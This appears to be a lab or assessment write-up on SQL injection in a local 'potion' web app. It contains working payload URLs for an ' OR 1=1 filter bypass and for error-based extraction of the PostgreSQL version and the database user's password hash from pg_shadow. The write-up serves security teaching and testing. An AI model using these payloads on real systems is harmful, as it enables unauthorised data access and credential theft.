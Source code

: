

### 1. Answer 

### 1. The application's main potion search box.

#### Vulnerablity: SQL Injection

#### Description: 

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure. It can also enable them to perform denial-of-service attacks.

#### PoC: 

The initial payload, which resulted in an error.
```http://localhost:4000/?name=%27%3D0--%2B```  
```
[no match of right hand side value: {:error, %Postgrex.Error{connection_id: 52389, message: nil, postgres: %{code: :undefined_function, file: "parse_oper.c", hint: "No operator matches the given name and argument types. You might need to add explicit type casts.", line: "647", message: "operator does not exist: boolean = integer", pg_code: "42883", position: "94", routine: "op_error", severity: "ERROR", unknown: "ERROR"}, query: "SELECT p.id, p.name, p.milliliters, p.price, p.secret\nFROM potions as p\nWHERE p.name LIKE '%'=0--+%' AND p.secret = false\n"}}]
```
The error showed the direct interpolation of user input ['name'] into SQL query, indicating a strong potential for exploiting a SQL injection vulnerability.

![1_SQL](https://github.com/user-attachments/assets/fc71a205-2862-4606-98b5-c2dfa05fa427)


For successful exploitation, the following payload was utilized. 

```http://localhost:4000/?name=%27%20OR%201%3D1%20-```

The payload ' OR 1=1 -- exploits a SQL injection vulnerability to bypass restrictions in the query. Normally, the query filters potions by name and ensures they are not secret. However, the payload ends the name filter condition and adds OR 1=1, which always evaluates to TRUE, making the WHERE clause ineffective. The -- comments out the rest of the query, ignoring any conditions like p.secret = false. This tricks the database into returning all potions, including those that are normally hidden or secret, exposing sensitive data.

![2_SQL](https://github.com/user-attachments/assets/32d4b925-2f91-4561-a431-f9a55ebd659e)


To retrieve the DBMS banner, the following link was used along with the payload.

```http://localhost:4000/?name=potion%27+AND+8683%3DCAST%28%28CHR%28113%29%7C%7CCHR%28112%29%7C%7CCHR%28112%29%7C%7CCHR%28120%29%7C%7CCHR%28113%29%29%7C%7C%28COALESCE%28CAST%28VERSION%28%29+AS+VARCHAR%2810000%29%29%3A%3Atext%2C%28CHR%2832%29%29%29%29%3A%3Atext%7C%7C%28CHR%28113%29%7C%7CCHR%28122%29%7C%7CCHR%2898%29%7C%7CCHR%28120%29%7C%7CCHR%28113%29%29+AS+NUMERIC%29--+Lqjf```

![Dbms_Burp](https://github.com/user-attachments/assets/4123e649-7465-4ffc-acc8-b1fee0bddd23)


![3_SQL](https://github.com/user-attachments/assets/822d2ecc-f090-4087-8e82-7baebed31178)


To retrieve the hash of the Database Management System user, the following approach was utilized.

```http://localhost:4000/?name=potion%27%20AND%203205=CAST((CHR(113)||CHR(112)||CHR(112)||CHR(120)||CHR(113))||(SELECT%20COALESCE(CAST(passwd%20AS%20VARCHAR(10000))::text,(CHR(32)))%20FROM%20pg_shadow)::text||(CHR(113)||CHR(122)||CHR(98)||CHR(120)||CHR(113))%20AS%20NUMERIC)--%20iRse```

![4_SQL](https://github.com/user-attachments/assets/ad5de96b-3fb7-4ecc-9794-2fe9b8a0a6c2)
```